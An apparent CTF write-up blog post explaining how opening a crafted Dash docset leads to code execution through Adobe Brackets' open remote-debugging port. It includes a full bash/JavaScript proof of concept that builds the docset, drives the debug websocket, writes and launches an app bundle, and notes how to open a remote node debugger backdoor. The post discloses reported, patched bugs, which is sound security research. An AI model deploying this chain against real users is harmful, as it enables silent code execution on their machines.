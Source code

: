 ```yaml
---
layout:	post
title:	"Something About #realworldctf doc2own"
date:	2018-08-07
image: /img/2018-08-07-something-about-realworldctf-doc2own/rwctf.png
show_excerpt: true
---
```


The challenge is to get a shell when the victim opens a Dash docset. Both Dash and Adobe Brackets are up to date. Actually the intended solution **involves no zero day at all**. This writeup from Team 217 [Real World CTF 2018 — doc2own](https://blog.l4ys.tw/2018/07/realworld-ctf-2018-doc2own/) (in Traditional Chinese) is the expected solution.

<!-- more -->

## The Intended Solution Without Involving 0day

#### From remote debug to shell

After the [VSCode 9333 debugging port issue](http://bluec0re.blogspot.com/2018/03/cve-2018-7160-pwning-nodejs-developers.html) I looked at some other javascript based desktop applications, especially editors and IDE. I came across this same vulnerability in Adobe Brackets: [CEF remote debugging is vulnerable to dns rebinding attack #14149](https://github.com/adobe/brackets/issues/14149)

It's weird to have a debugging port in production but Brackets does it. Unlike Atom or VSCode, Brackets is based on libCEF and custom node.js runtime binding. The debugging protocol for web frontend is the same as Chromium.

In the original report, exploit requires dns rebinding to get the random websocket uuid to start a debug session, then use DOM manipulation (there was a bug so `Runtime.Evaluate` didn't work) to inject malicious javascript to the frontend context. But node.js runtime can not be accessed so you need a V8 engine bug to achieve native code execution. The libCEF is pretty old so all you need is to grab an n-day exploit. No further sandbox. Unfortunately memory corruption is not what I am familiar with.

There are some special bridged objects in the context: `appshell` and `brackets`. In the challenge you don't really need a shell because `brackets` already gives the filesystem access.

Unrestricted file system access almost equals code execution, but it requires a trigger. There are two functions that can be turned to instant command execution.

1. `brackets.app.openURLInDefaultBrowser` does not limit `file:///` url, so point it to an executable like `.cmd` or `.exe` equals `ShellExecute` on Windows. For macOS we can use `.terminal` or `.sh`.
2. The application bundle on macOS is actually a directory with specific structure. Opening such bundle will execute a file. Method `brackets.app.showOSFolder` can trigger this behavior.

```js
function calc() {
  // use brackets.fs to write your own executable
  // makedir, writeFile, chmod are your friends
  if (brackets.app.getUserDocumentsDirectory().indexOf('/') === 0) {
    brackets.app.showOSFolder('/Applications/Calculator.app');
  } else {
      brackets.app.openURLInDefaultBrowser('file:///C:/windows/system32/calc.exe');
  }
// P.S. brackets.getModule is also available. We can even activate a node debugger backdoor
  const NodeConnection = brackets.getModule("utils/NodeConnection");
  const conn = new NodeConnection();
  conn.connect(true);
  conn.domains.base.enableDebugger(); // enable *:5858 as a backdoor, which accepts connection from another computer. Just attach it with VSCode or other debugger to execute node.js code
}
```

The patch killed dns rebinding, but this port is still open. So what if we can access it from somewhere with no Same Origin Policy?

#### The Dash Part

There was no special reason to choose Dash as this part. Dash is popular for developers, and it has a WebView that can make cross site AJAX if the document has `file:///` origin. The WebView in Dash is the same WebKit engine as Safari, **I don't think someone will burn a Safari 0day exploit in the CTF**.

You may think about directly reading flag from `file:///` via AJAX. Actually this bug has been reported for a while, including the symlink variant, as well as a directory traversal in the GCDWebServer.

![](/img/2018-08-07-something-about-realworldctf-doc2own/XHQ-73R0VHZvwNubvKipXg.png)

#### Demo

Looks like both two issues are not so serious, but together they can spawn a remote shell:

* A debugging port that only allows localhost connection
* A web browser without same origin policy

Here's a proof of concept that launches a calculator:

```bash
contents=exploit.docset/Contents
docs=$contents/Resources/Documents

rm -r $contents
mkdir -p $docs

cat > $docs/index.html <<- "EOF"
<script>
async function main() {
  const list = await fetch('http://localhost:9234/json').then(r => r.json());
  const item =  list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return console.error('invalid response');
  const url = `ws://127.0.0.1:9234/devtools/page/${item.id}`;
  console.log('url:' + url);
  exploit(url);
}
function exploit(url) {
  function calc() {
    const fs = window.appshell.fs;
    const mkdir = path => new Promise((resolve, reject) =>
      fs.makedir(path, 0755, err => err => err === 0 ? resolve(true) : reject(err)));
    const writeFile = (path, content) => new Promise((resolve, reject) =>
      fs.writeFile(path, content, 'utf8', false, err => err === 0 ? resolve(true) : reject(err)));
    const chmod = (path, mode) => new Promise((resolve, reject) =>
      fs.chmod(path, mode, err => err === 0 ? resolve(true) : reject(err)));
    const INFO_PLIST = `<?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
      <plist version="1.0">
      <dict>
        <key>CFBundleExecutable</key>
        <string>hello</string>
        <key>CFBundleIconFile</key>
        <string>AppIcon</string>
      </dict>
      </plist>`;
    const EXEC = `#!/bin/sh
      open -a Calculator`;
    const app = '/tmp/test.app/';
    const base = app + 'Contents/'
    return mkdir(base + 'MacOS')
      .then(writeFile(base + 'Info.plist', INFO_PLIST))
      .then(writeFile(base + 'MacOS/hello', EXEC))
      .then(chmod(base + 'MacOS/hello', 0777))
      .then(new Promise((resolve, reject) => {
        brackets.app.showOSFolder(app)
      }));
  }
  const ws = new WebSocket(url);
  ws.onopen = async () => {
    let counter = 13371337;
    const send = (method, params) => new Promise((resolve, reject) => {
      const id = counter++;
      const recv = ({ data }) => {
        const parsed = JSON.parse(data);
        if (parsed.id === id) {
          resolve(parsed.result);
          ws.removeEventListener('message', recv);
        } else {
          console.log('message: ', data);
        }
      };
      ws.addEventListener('message', recv);
      ws.send(JSON.stringify({ id, method, params }));
    });
    const response = await send('Runtime.evaluate', { expression: `(${calc})()` });
    console.log(response.result);
    ws.close();
  }
  ws.onerror = () => console.log('failed to connect');
}
main();
</script>
EOF

cat > $contents/Info.plist <<- "EOF"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>exploit</string>
  <key>CFBundleName</key>
  <string>Exploit</string>
  <key>DocSetPlatformFamily</key>
  <string>exploit</string>
  <key>dashIndexFilePath</key>
  <string>index.html</string>
  <key>isDashDocset</key>
  <true/>
</dict>
</plist>
EOF

sqlite3 -batch $contents/Resources/docSet.dsidx << "EOF"
CREATE TABLE searchIndex(id INTEGER PRIMARY KEY, name TEXT, type TEXT, path TEXT);
CREATE UNIQUE INDEX anchor ON searchIndex (name, type, path);
INSERT OR IGNORE INTO searchIndex(name, type, path) VALUES ('Exploit', 'Class', 'index.html');
EOF

open exploit.docset

tar czf exp.tar.gz exploit.docset
```

[Demo](https://youtu.be/8--cX0BF3ew)

But during the CTF, it didn't cost [Plaid Parliament of Pwning](https://ctftime.org/team/284), [CyKOR](https://ctftime.org/team/369) and [Eat, Sleep, Pwn, Repeat](https://ctftime.org/team/15712) too much time to find real zero day solutions in Dash itself. After the game, I did a quick disassemble and found some other new bugs that have been confirmed by the developer.

After reporting to [Kapeli](https://medium.com/u/f1aac0988a9), he quickly made a new release, and checked the docset repo to make sure there were no actual attack. Thanks for his response!

> The docsets available by default within Dash (including user contributed ones) have been checked and no evidence of these vulnerabilities being exploited has been found.

To protect end users of Dash, I'll not reveal the unintended bugs now. **Please upgrade to Dash 4.4.0 ASAP.**

